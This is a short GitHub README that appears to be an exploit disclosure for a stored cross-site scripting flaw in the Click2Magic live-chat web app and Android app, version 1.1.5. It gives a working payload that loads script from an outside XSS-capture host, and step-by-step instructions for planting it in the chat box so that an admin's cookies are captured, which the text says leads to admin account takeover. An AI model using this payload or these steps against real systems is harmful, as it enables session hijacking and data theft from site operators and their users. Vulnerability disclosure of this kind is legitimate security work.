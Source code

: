 # CVE
This is my Repo for the CVE MITRE 



# Exploit Title: [Stored Cross Site Scripting]
# Date: 05/04/2022
# Exploit Author: [Shivam Verma(cyb3r_n3rd)]
# Vendor Homepage: [https://www.click2magic.com/]
# Software Link: [https://play.google.com/store/apps/details?id=com.tvisha.click2magic&hl=en_IN]
# Version: [1.1.5] 
# Tested on: [Kali Linux 2021.4]


Vulnerability Name: Stored Cross Site Scripting
Vulnerability Description: In this Scenario the payload is getting stored in the Server and delivering us the admin cookies we can capture admin cookies and see all the data in admin panel

Payload: "><script src=https://nick413.xss.ht></script>

Steps to reproduce: 
Step1: Goto Url: https://www.click2magic.com OR Download the app from the above link
STep2: Start a chat 
Step3: Put payload in the chat box
Payload: "><script src=https://nick413.xss.ht></script>
Step4: Wait for the admin to click on the link 
Step5: you will see the popup and getting admin cookies Confirming the Execution of payload

POC: 
![Screenshot (217)](https://user-images.githubusercontent.com/71320606/161679689-af4f576f-1df9-46a4-9c65-86d168e3f277.png)

Admin Account takeover Screenshot

![WhatsApp Image 2022-04-05 at 10 47 03 AM](https://user-images.githubusercontent.com/71320606/161683950-e137aea3-f505-4162-bd82-405cfeb53c85.jpeg)

